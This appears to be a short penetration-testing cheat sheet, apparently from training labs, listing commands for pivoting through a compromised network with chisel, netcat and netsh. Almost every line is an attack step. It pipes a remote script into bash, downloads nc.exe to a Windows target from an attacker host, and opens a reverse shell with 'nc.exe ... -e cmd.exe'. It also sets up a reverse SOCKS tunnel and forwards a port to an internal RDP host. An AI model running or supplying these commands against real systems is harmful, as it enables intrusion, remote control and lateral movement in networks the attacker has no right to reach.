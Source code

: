 ## CHISEL

1. Install on attack box: `curl https://i.jpillora.com/chisel! | bash`
2. Edit /etc/proxychains.conf > socks5 127.0.0.1 1080
3. Run server: `chisel server -p 8001 —reverse`
4. Run client:  `.\chisel.exe client 10.10.14.179:8001 R:1080:socks`
5. Run command: `proxychains4 -q nmap ip-address`
6. Links:
    1. [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
    2. [https://ap3x.github.io/posts/pivoting-with-chisel/](https://ap3x.github.io/posts/pivoting-with-chisel/)

## NETCAT
1. Download on windows host: `Invoke-WebRequest -Uri [http://10.10.14.144:9999/nc.exe](http://10.10.14.144:9999/nc.exe) -OutFile nc.exe -UseBasicParsing`
2. Run nc on atack host: `nc -nlvp 4444`
3. Run nc on target: `nc.exe 10.10.14.144 4444 -e cmd.exe`

## NETSH.EXE
1. Using Netsh.exe to Port Forward `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25`
2. Verifying Port Forward `netsh.exe interface portproxy show v4tov4`
3. Connecting to the Internal Host through the Port Forward `xfreerdp /v:ip-address:port /u:user /p:password`